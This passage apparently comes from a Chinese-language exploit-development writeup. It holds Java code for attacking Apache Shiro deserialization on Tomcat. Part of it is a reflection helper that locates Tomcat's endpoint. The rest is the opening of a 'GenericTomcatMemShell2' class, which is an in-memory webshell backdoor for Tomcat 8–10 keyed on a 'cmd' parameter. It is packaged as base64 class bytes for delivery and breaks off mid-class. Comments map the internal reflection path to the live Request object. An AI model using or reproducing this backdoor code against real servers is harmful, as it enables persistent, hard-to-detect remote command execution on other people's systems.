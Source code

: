 ```java
                try { //Tomcat678
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {//Tomcat9
                        jioEndPoint = getField(target, "endpoint");
                    } catch (Exception e) {
                        continue;
                    }
                }
                return jioEndPoint;
            }
        }
        return null;
    }

}
```

上述代码是完成一个加载classData传入的类并调用其无参构造函数

classData参数打内存马，适用于shiro的都可以。这里依旧简单的打个回显即可

```java
package org.exploit.third.shiro;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.loader.WebappClassLoaderBase;

import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

//1. getContextClassLoader()->resources->getContext()先获取StandardContext。然后StandardContext->context(ApplicationContext)->service(StandardService)可以获取到StandardService。
//2. 从StandardService->connectors->Connector的路径取出connector。connector内部有protocolHandler字段，存储着Http11NioProtocol
//3. 获取到了Http11NioProtocol，才能调用其父类AbstractHttp11Protocol的getHandler或者反射 去获取AbstractHttp11Protocol构造函数所创建的`AbstarctProtocol$ConnectionHandler`。以上都是因为ConnectionHandler是个内部类带来的麻烦事
//4. 获取到了ConnectionHandler，就可以反射获取global静态字段，global实际上是RequestGroupInfo，可以按照RequestGroupInfo->RequestInfo->Request的方式获取到Request
//通用tomcat 8 9 10
public class GenericTomcatMemShell2 {

    public static void main(String[] args) throws IOException {
        byte[] string = Base64.getEncoder().encode(Files.readAllBytes(Paths.get("target/classes/org/exploit/third/shiro/GenericTomcatMemShell2.class")));
        System.out.println(new String(string));
    }
    public GenericTomcatMemShell2() {
        try {
            //传递的参数，后门标识
            String pass = "cmd";

            //获取WebappClassLoaderBase
```